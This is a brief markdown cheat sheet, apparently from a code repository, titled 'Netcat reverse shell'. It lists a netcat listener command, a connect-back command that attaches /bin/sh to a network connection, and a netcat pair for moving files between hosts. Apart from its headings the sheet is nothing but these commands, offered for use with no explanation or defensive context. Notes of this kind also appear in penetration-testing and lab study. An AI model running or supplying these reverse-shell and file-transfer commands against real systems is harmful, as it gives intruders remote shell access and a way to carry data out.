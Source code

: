 # Netcat reverse shell
## reverse shell
```bash
nc -lkp 1234
nc 127.0.0.1 1234 -e /bin/sh
```
## file transfert
```bash
nc -lkp 1234 > out
nc 127.0.0.1 1234 < in
```